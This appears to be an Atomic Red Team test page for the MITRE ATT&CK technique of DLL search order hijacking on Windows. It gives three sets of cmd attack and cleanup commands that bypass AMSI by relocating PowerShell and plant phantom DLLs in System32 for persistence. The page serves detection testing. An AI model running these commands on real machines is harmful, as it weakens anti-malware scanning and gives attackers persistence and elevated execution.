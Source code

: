 # T1574.001 - Hijack Execution Flow: DLL Search Order Hijacking
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1574/001)
<blockquote>Adversaries may execute their own malicious payloads by hijacking the search order used to load DLLs. Windows systems use a common method to look for required DLLs to load into a program. (Citation: Microsoft Dynamic Link Library Search Order)(Citation: FireEye Hijacking July 2010) Hijacking DLL loads may be for the purpose of establishing persistence as well as elevating privileges and/or evading restrictions on file execution.

There are many ways an adversary can hijack DLL loads. Adversaries may plant trojan dynamic-link library files (DLLs) in a directory that will be searched before the location of a legitimate library that will be requested by a program, causing Windows to load their malicious library when it is called for by the victim program. Adversaries may also perform DLL preloading, also called binary planting attacks, (Citation: OWASP Binary Planting) by placing a malicious DLL with the same name as an ambiguously specified DLL in a location that Windows searches before the legitimate DLL. Often this location is the current working directory of the program.(Citation: FireEye fxsst June 2011) Remote DLL preloading attacks occur when a program sets its current directory to a remote location such as a Web share before loading a DLL. (Citation: Microsoft Security Advisory 2269637)

Phantom DLL hijacking is a specific type of DLL search order hijacking where adversaries target references to non-existent DLL files.(Citation: Adversaries Hijack DLLs) They may be able to load their own malicious DLL by planting it with the correct name in the location of the missing module.

Adversaries may also directly modify the search order via DLL redirection, which after being enabled (in the Registry and creation of a redirection file) may cause a program to load a different DLL.(Citation: Microsoft Dynamic-Link Library Redirection)(Citation: Microsoft Manifests)(Citation: FireEye DLL Search Order Hijacking)

If a search order-vulnerable program is configured to run at a higher privilege level, then the adversary-controlled DLL that is loaded will also be executed at the higher level. In this case, the technique could be used for privilege escalation from user to administrator or SYSTEM or from administrator to SYSTEM, depending on the program. Programs that fall victim to path hijacking may appear to behave normally because malicious DLLs may be configured to also load the legitimate DLLs they were meant to replace.</blockquote>

## Atomic Tests

- [Atomic Test #1 - DLL Search Order Hijacking - amsi.dll](#atomic-test-1---dll-search-order-hijacking---amsidll)

- [Atomic Test #2 - Phantom Dll Hijacking - WinAppXRT.dll](#atomic-test-2---phantom-dll-hijacking---winappxrtdll)

- [Atomic Test #3 - Phantom Dll Hijacking - ualapi.dll](#atomic-test-3---phantom-dll-hijacking---ualapidll)


<br/>

## Atomic Test #1 - DLL Search Order Hijacking - amsi.dll
Adversaries can take advantage of insecure library loading by PowerShell to load a vulnerable version of amsi.dll in order to bypass AMSI (Anti-Malware Scanning Interface)
https://enigma0x3.net/2017/07/19/bypassing-amsi-via-com-server-hijacking/

Upon successful execution, powershell.exe will be copied and renamed to updater.exe and load amsi.dll from a non-standard path.

**Supported Platforms:** Windows


**auto_generated_guid:** 8549ad4b-b5df-4a2d-a3d7-2aee9e7052a3






#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
copy %windir%\System32\windowspowershell\v1.0\powershell.exe %APPDATA%\updater.exe
copy %windir%\System32\amsi.dll %APPDATA%\amsi.dll
%APPDATA%\updater.exe -Command exit
```

#### Cleanup Commands:
```cmd
del %APPDATA%\updater.exe >nul 2>&1
del %APPDATA%\amsi.dll >nul 2>&1
```





<br/>
<br/>

## Atomic Test #2 - Phantom Dll Hijacking - WinAppXRT.dll
.NET components (a couple of DLLs loaded anytime .NET apps are executed) when they are loaded they look for an environment variable called APPX_PROCESS
Setting the environmental variable and dropping the phantom WinAppXRT.dll in e.g. c:\windows\system32 (or any other location accessible via PATH) will ensure the 
WinAppXRT.dll is loaded everytime user launches an application using .NET.

Upon successful execution, amsi.dll will be copied and renamed to WinAppXRT.dll and then WinAppXRT.dll will be copied to system32 folder for loading during execution of any .NET application.

**Supported Platforms:** Windows


**auto_generated_guid:** 46ed938b-c617-429a-88dc-d49b5c9ffedb






#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
copy %windir%\System32\amsi.dll %APPDATA%\amsi.dll
ren %APPDATA%\amsi.dll WinAppXRT.dll
copy %APPDATA%\WinAppXRT.dll %windir%\System32\WinAppXRT.dll
reg add "HKEY_CURRENT_USER\Environment" /v APPX_PROCESS /t REG_EXPAND_SZ /d "1" /f
```

#### Cleanup Commands:
```cmd
reg delete "HKEY_CURRENT_USER\Environment" /v APPX_PROCESS /f
del %windir%\System32\WinAppXRT.dll
del %APPDATA%\WinAppXRT.dll
```





<br/>
<br/>

## Atomic Test #3 - Phantom Dll Hijacking - ualapi.dll
Re-starting the Print Spooler service leads to C:\Windows\System32\ualapi.dll being loaded
A malicious ualapi.dll placed in the System32 directory will lead to its execution whenever the system starts

Upon successful execution, amsi.dll will be copied and renamed to ualapi.dll and then ualapi.dll will be copied to system32 folder for loading during system restart.
Print Spooler service is also configured to auto start. Reboot of system is required

**Supported Platforms:** Windows


**auto_generated_guid:** 5898902d-c5ad-479a-8545-6f5ab3cfc87f






#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
copy %windir%\System32\amsi.dll %APPDATA%\amsi.dll
ren %APPDATA%\amsi.dll ualapi.dll
copy %APPDATA%\ualapi.dll %windir%\System32\ualapi.dll
sc config Spooler start=auto
```

#### Cleanup Commands:
```cmd
del %windir%\System32\ualapi.dll
del %APPDATA%\ualapi.dll
```





<br/>
